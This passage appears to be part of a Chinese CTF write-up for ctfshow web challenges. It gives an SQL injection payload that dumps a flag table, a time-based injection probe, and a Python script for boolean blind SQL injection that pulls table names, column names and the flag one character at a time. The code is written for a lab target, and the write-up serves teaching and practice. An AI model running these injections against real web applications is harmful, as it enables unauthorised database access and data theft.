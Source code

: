 ```sql
# 查flag
username=id,char,id,username,pass,id,flagass,info&password=1'),username=(select group_concat(flagass) from flagaa);#
```

## web 233 布尔盲注

这题目怎么又回到之前的版本了。直接狠狠地sql注入(注不进去，题目存在过滤)

前面的payload注入没有变化，可能是对`password`做了过滤，试试`username`处能不能时间盲注，页面可以执行`username=ctfshow' and if(1=1,sleep(3),0)#&password=1`。看大佬脚本根据update是否修改成功的回显，使用了布尔盲注

```python

import requests
url='http://398f1aa4-200c-4594-af45-5d7b0a59f091.challenge.ctf.show/api/'
flag=''
i=0
j = 0
while True:
    head=1
    tail=127
    i+=1
    while head<tail:
        j+=1
        mid=(head+tail)>>1
        # 爆表 flag233333
        # payload=f"ctfshow' and if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),{i},1))>{mid},1,0)#"
        # 爆字段 id,flagass233,info
        # payload=f"ctfshow' and if(ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='flag233333'),{i},1))>{mid},1,0)#"
        # 爆flag
        payload=f"ctfshow' and if(ascii(substr((select group_concat(id,flagass233,info) from flag233333),{i},1))>{mid},1,0)#"
        data={
            "username":payload,
            "password":j
        }
        r=requests.post(url,data=data)
        if "\\u66f4\\u65b0\\u6210\\u529f" in r.text:#更新成功
            head=mid+1
        else:
            tail=mid
    if head!=1:
        print(head)
        flag+=chr(head)
        print(flag)
    else:
        break
```
